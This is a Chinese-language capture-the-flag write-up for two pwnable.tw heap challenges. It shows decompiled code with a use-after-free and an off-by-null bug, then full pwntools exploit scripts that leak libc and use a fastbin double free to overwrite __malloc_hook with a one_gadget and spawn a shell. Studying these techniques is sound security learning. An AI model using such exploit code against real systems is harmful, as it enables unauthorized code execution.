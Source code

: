 #pwnable.tw 的两道堆题目

***1.secret garden***
很水的一道堆题
没啥好说的，主要就是uaf

    int sub_DD0()
    {
      int result; // eax
      _DWORD *v1; // rax
      unsigned int v2; // [rsp+4h] [rbp-14h]
      unsigned __int64 v3; // [rsp+8h] [rbp-10h]
    
      v3 = __readfsqword(0x28u);
      if ( !flower_count )
        return puts("No flower in the garden");
      __printf_chk(1LL, "Which flower do you want to remove from the garden:");
      __isoc99_scanf("%d", &v2);
      if ( v2 <= 0x63 && (v1 = (_DWORD *)heaplst[v2]) != 0LL )
      {
        *v1 = 0;
        free(*(void **)(heaplst[v2] + 8LL));
        result = puts("Successful");
      }
      else
      {
        puts("Invalid choice");
        result = 0;
      }
      return result;
    }
可以看到指针没清零
注意的一点是他每次会申请两个堆块
所以要注意一下堆风水
剩下的就是很基本的fastbin attack了

    from pwn import *
    context.log_level = 'debug'
    elf = ELF('secretgarden')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io = process('./secretgarden')
    
    def add(l,name,color):
    	io.recvuntil(':')
    	io.sendline('1')
    	io.recvuntil('name :')
    	io.sendline(str(l))
    	io.recvuntil('name of flower :')
    	io.sendline(name)
    	io.recvuntil('color of the flower :')
    	io.sendline(color)
    def visit():
    	io.recvuntil(':')
    	io.sendline('2')
    def delete_one(idx):
    	io.recvuntil(':')
    	io.sendline('3')
    	io.recvuntil('garden:')
    	io.sendline(str(idx))
    def delete_all():
    	io.recvuntil(':')
    	io.sendline('4')
    
    add(0xb0,'a'*0xb0,'green')#0
    add(0x80,'a'*0x80,'red')#1
    delete_one(0)
    add(0x80,'a'*7,'green')#2
    
    visit()
    
    io.recvuntil('Name of the flower[2] :aaaaaaa\n')
    leak = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(leak))
    libc_base = leak - 88 -0x10 - libc.symbols['__malloc_hook']
    malloc_hook = libc_base + libc.symbols['__malloc_hook']
    one = 0xe9415 + libc_base
    add(0x60,'a'*0x40,'purple')#3
    add(0x60,'b'*0x40,'black')#4
    
    delete_one(3)
    delete_one(4)
    delete_one(3)
    add(0x60,p64(malloc_hook - 0x23),'white')
    add(0x60,'b'*0x40,'black')
    add(0x60,'b'*0x40,'black')
    add(0x60,'a'*0x3+p64(one),'a')
    log.success(hex(one))
    gdb.attach(io)
    delete_one(1)
    delete_one(1)
    io.interactive()

***2.secret of my heart***
本来以为能在这道题里面找到什么骚操作
想多了，也是一道水题
漏洞就是个offbynull

    _BYTE *__fastcall add_imfo(__int64 *ptr, __int64 len)
    {
      _BYTE *result; // rax
      size_t size; // [rsp+0h] [rbp-20h]
    
      *ptr = len;
      printf("Name of heart :", len);
      get_str(ptr + 1, 0x20u);
      ptr[5] = malloc(size);
      if ( !ptr[5] )
      {
        puts("Allocate Error !");
        exit(0);
      }
      printf("secret of my heart :", 32LL);
      result = (ptr[5] + get_str(ptr[5], size));
      *result = 0;                                  // offbynull
                                                    // 
      return result;
    }
这里就是一个offbynull的利用方式，也是个套路
主要思想就是通过溢出的0字节把size缩小，然后下一次free的时候就不会改变下一个堆块的use位
剩下的没啥好说的，构造uaf，fastbinattack

    from pwn import *
    context.log_level = 'debug'
    io = process('./secret_of_my_heart')
    elf = ELF('secret_of_my_heart')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(size,name,content):
    	io.recvuntil(':')
    	io.sendline('1')
    	io.recvuntil('Size of heart :')
    	io.sendline(str(size))
    	io.recvuntil('Name of heart :')
    	io.sendline(name)
    	io.recvuntil('secret of my heart :')
    	io.sendline(content)
    def delete(idx):
    	io.recvuntil(':')
    	io.sendline('3')
    	io.recvuntil('Index :')
    	io.sendline(str(idx))
    def show(idx):
    	io.recvuntil(':')
    	io.sendline('2')
    	io.recvuntil('Index :')
    	io.sendline(str(idx))
    
    add(0x88,'a','A'*0x80)#0
    add(0x100,'b','B'*0x100)#1
    add(0x80,'c','C'*0x80)#2
    add(0x60,'d','D'*0x60)#3
    delete(1)
    delete(0)
    add(0x88,'a','A'*0x88)#0
    add(0x80,'e','E'*0x80)#1
    add(0x60,'f','F'*0x60)#4
    delete(1)
    delete(2)
    add(0x80,'b','B'*0x80)#1
    show(4)
    ''''''
    io.recvuntil('Secret : ')
    leak = u64(io.recvline()[:6].ljust(8,'\x00'))
    libc_base = leak - 88 - 0x10 - libc.symbols['__malloc_hook']
    
    log.success('libc_base :'+hex(libc_base))
    one = 0xe9415 + libc_base
    mlh = libc_base + libc.symbols['__malloc_hook']
    log.success('one :'+hex(one))
    log.success('mlh :'+hex(mlh))
    
    add(0x60,'h','H'*0x5f)#2 == 4
    add(0x60,'g','G'*0x5f)#5
    delete(4)
    delete(3)
    delete(2)
    add(0x60,'h',p64(mlh - 0x23) + 'AAAA')#2
    add(0x60,'z','z')#3
    add(0x60,'y','y')#4
    add(0x60,'x','x'*3 + p64(one))
    gdb.attach(io)
    raw_input()
    delete(4)
    delete(2)
    
    io.interactive()